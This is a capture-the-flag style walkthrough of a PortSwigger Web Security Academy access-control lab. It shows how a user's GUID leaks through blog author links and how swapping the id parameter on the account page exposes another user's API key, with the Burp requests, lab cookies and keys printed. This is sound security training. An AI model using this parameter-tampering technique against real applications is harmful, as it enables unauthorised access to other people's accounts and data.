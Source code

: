 # User ID controlled by request parameter, with unpredictable user IDs 

https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids

This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.
To solve the lab, find the GUID for `carlos`, then submit his API key as the solution.
You can log in to your own account using the following credentials: `wiener:peter`

## Solution

Logging in with the provided credentials. We see the following information:
```
Your username is: wiener
Your API Key is: J9lRnFJFA8TP3MslDSCZE5Gd6B9pGbXo
```
We must be able to somehow login as `carlos` and get the API key of `carlos`.

Observing the packets in Burp Suite, we see the account id, this should be the GUID, which we will not be able to guess and/or brute-force. We must find out the GUID of `carlos`.
```
GET /my-account?id=c97fe694-76bd-405a-bc98-216978a82bb9 HTTP/2
Host: 0ac000d004094358813dc0ef0043001c.web-security-academy.net
Cookie: session=brAEVnVq6Clcs6jCH9qDCD17DOakanX0
```

Checking some of the blog posts. Opening the first one, we see that it was posted by `administrator` and it is clickable. Observing Burp Suite, we see that the account id changed,
```
GET /blogs?userId=d7e2de4e-8f70-4e4f-a87e-e6a5babc7b88 HTTP/2
Host: 0ac000d004094358813dc0ef0043001c.web-security-academy.net
Cookie: session=brAEVnVq6Clcs6jCH9qDCD17DOakanX0
```
This must be the GUID of the user `administrator`. Technically, we would be able to get admin access with this information, but that is not the objective of the lab.
Checking the other blog posts, we see one by `carlos`.
```
GET /blogs?userId=a737c664-d241-48ed-ae9c-a8bc3f32c02a HTTP/2
Host: 0ac000d004094358813dc0ef0043001c.web-security-academy.net
Cookie: session=brAEVnVq6Clcs6jCH9qDCD17DOakanX0
```
We now have the GUID of `carlos`, lets go back to `My Account` and change the GUID at the address bar with the GUID of `carlos`
```
https://0ac000d004094358813dc0ef0043001c.web-security-academy.net/my-account?id=a737c664-d241-48ed-ae9c-a8bc3f32c02a
```

And we get the API key of `carlos` and we can submit this as our solution and the lab is solved!

```
My Account
Your username is: carlos

Your API Key is: lso9Q7pAzFOAUnom73POZg6NMwh7bDFw
```


